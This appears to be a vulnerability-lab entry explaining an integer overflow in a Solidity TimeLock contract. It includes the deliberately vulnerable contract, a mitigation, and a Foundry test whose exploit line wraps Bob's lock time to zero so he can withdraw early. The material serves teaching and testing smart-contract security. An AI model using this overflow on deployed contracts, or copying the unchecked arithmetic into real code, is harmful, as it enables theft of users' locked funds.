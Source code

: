 # Integer Overflow   
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)   
**Name:** Integrate Overflow  
**Description:**  
The TimeLock has a flaw in the smart contract code that allows
an attacker to prematurely withdraw their deposited funds from the TimeLock contract.  
The vulnerability arises due to an overflow in the increaseLockTime function,
which manipulates the lock time in a way that causes it to wrap around to 0,
enabling the attacker to withdraw their funds before the actual waiting period expires.

**Scenario:**

This contract is designed to act as a time vault.
User can deposit into this contract but cannot withdraw for atleast a week.
User can also extend the wait time beyond the 1 week waiting period.

1. Alice and bob both have 1 Ether balance
2. Deploy TimeLock Contract
3. Alice and bob both deposit 1 Ether to TimeLock, they need to wait 1 week to unlock Ether
4. Bob caused an overflow on his lockTime
5, Alice can't withdraw 1 Ether, because the lock time not expired.
5. Bob can withdraw 1 Ether, because the lockTime is overflow to 0

**What happened?**  
Attack caused the TimeLock.lockTime to overflow,
and was able to withdraw before the 1 week waiting period.

**Impact:** Solidity < 0.8 and without SafeMath

**Mitigation:**

To mitigate the Overflow vulnerability, use SafeMath library or use Solidity > 0.8

**TimeLock Contract:**  
```
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // vulnerable
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
****How to Test:****

forge test --contracts src/test/**Overflow.sol** -vvvv
```
// The testOverflow function, used to test for overflow vulnerabilities.
    function testOverflow() public {
        // Log Alice's balance.
        console.log("Alice balance", alice.balance);
        // Log Bob's balance.
        console.log("Bob balance", bob.balance);

        // Log the start of Alice's deposit.
        console.log("Alice deposit 1 Ether...");
        // Set the message sender to Alice.
        vm.prank(alice);
        // Alice deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Alice's new balance.
        console.log("Alice balance", alice.balance);

        // Log the start of Bob's deposit.
        console.log("Bob deposit 1 Ether...");
        // Set the message sender to Bob.
        vm.startPrank(bob);
        // Bob deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);

        // Exploit: Increase the lock time so it overflows and becomes 0.
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // Log that Bob can now withdraw his funds because the lock time has overflowed.
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob withdraws his funds.
        TimeLockContract.withdraw();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);
        // Stop Bob's prank.
        vm.stopPrank();

        // Start Alice's prank.
        vm.prank(alice);
        // Log that Alice can't withdraw her funds because the lock time has not expired.
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        // Try to withdraw Alice's funds. This should revert because the lock time has not expired.
        TimeLockContract.withdraw(); // expect revert
    }
```  
Red box: the TimeLock.lockTime to overflow  
Purple box: issue fixed.  
![Alt text](image.png)
